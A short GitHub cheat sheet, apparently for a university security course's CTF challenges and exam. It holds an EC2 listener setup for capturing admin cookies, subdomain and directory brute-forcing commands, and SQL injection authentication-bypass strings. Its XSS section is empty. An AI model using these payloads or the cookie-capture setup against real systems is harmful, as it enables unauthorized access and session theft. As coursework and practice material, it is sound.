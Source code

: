 # 6843 CMDS + PAYLOADS
Copy pasta some quick access commands + payloads for CTF challenges + exam.
---
### Security Setup:

**EC2 Web Server**
1. Log in to EC2 instance.
2. Launch HTTP server `python -m SimpleHTTPServer 80`
3. Hit it with requests / capture some admin cookies :)

**Alternatives to capture requests**
* https://requestbin.fullcontact.com/
* http://webhookinbox.com/
---
### Common 6843 words

```
noone
sketch
sketchy
```
---
### Recon: Subdomain Bruteforcing

**Aquatone**
```
ssh ec2-user@tehec2instanceidduh.aws.etc.etc        // get in
cd /home/ec2-user/sec_tools/RECON/aquatone          // go to aquatone
aquatone-discover --domain [ ns.agency ]            // run subdomain bruteforcing
cat ~/aquatone/example.com/hosts.txt                // show discovered subdomains
```
**GoBuster DNS Mode**
```
See below instructions @ dir bruteforcing.
go run main.go -m dns -u [ https://ns.agency ] -w /path/to/wordlist      // run subdomain bruteforcing
```
---
### Recon: Directory Bruteforcing

**GoBuster**
```
cd /Users/brianlam/go/src/gobuster                  // go to gobuster sources
go run main.go -u https://ns.agency -w ~/1_RECON/_WORDLISTS/Directories_Common.wordlist    // run dir bruteforcing
```
---
### XSS

---
### SQLi

**Authentication Bypass
```
admin' --
' or 1=1--
' or '1'='1
' or '1'='1 --
```

### Advanced Injection
---



